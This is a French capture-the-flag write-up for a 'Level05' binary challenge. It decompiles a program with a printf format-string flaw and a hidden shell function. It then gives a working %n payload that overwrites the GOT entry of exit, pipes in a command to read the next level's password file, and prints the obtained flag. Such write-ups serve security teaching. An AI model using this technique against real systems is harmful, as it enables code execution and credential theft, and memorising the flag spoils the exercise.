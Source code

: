# Rapport CTF - [Level05]

### Observation :
En arrivant sur le level5 on trouve un exécutable nommé level5.\
Quand nous essayons de le lancer avec un argument le programme nous renvois juste notre propre chaîne de caractère puis se ferme, comme sur le level précédant. \
Regardons donc avec gdb ou un decompilateur.

### Explication de Code :
En lançant le binaire dans hex-ray ou ghidra nous obtenons :
```c
//----- (080484A4) --------------------------------------------------------
void __noreturn o()
{
  system("/bin/sh");
  _exit(1);
}
// 80484A4: using guessed type void __noreturn o();

//----- (080484C2) --------------------------------------------------------
void __noreturn n()
{
  char s[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(s, 512, stdin);
  printf(s);
  exit(1);
}

//----- (08048504) --------------------------------------------------------
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  n();
}
```
Nous pouvons voir une fonction non utilisé `o()` qui nous permet d'accéder à un shell. \
Et probablement modifier la stack de printf pour changer son adresse de retour vu que nous n'avons pas d'instruction de retour dans les autres fonctions (ça va être fastidieux...). \
Appel à la fonction `exit` et la fonction `_exit`


### Solution :
Il nous faut modifier l'opération de saut de la fonction d'appel court `exit` pour pointer vers la fonction `o()`. \
La première ligne de la fonction ressemble à ça : `(jmp *0x8049838)`. \
Je vais modifier l'adresse à laquelle l'opération jmp va dans la mémoire pour pointer vers l'adresse de la fonction `o()` = `080484A4` en inverser vu que nous sommes en small endian. \
Il nous faut donc écrire 164 octets pour le premier octet de notre return  `(A4 = 164)`, ensuite 0x84 étants plus petit que 0xA4 il nous faut écrire 4bits supplémentaire donc `(484 = 1156)`, puis `(804 = 2052)`.

On fait la commande suivante pour obtenir le flag :
```sh
(python -c "print('\x08\x04\x98\x38'[::-1] + 'A'*4 + '\x08\x04\x98\x39'[::-1] + 'A'*4 + '\x08\x04\x98\x3a'[::-1] + '%8.x'*3 + 'A'*120 + '%n' + '%992.x' + '%n' + '%896.x' + '%n')"; echo "cat /home/user/level6/.pass") | ./level5
```

### Resultat :
```sh
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
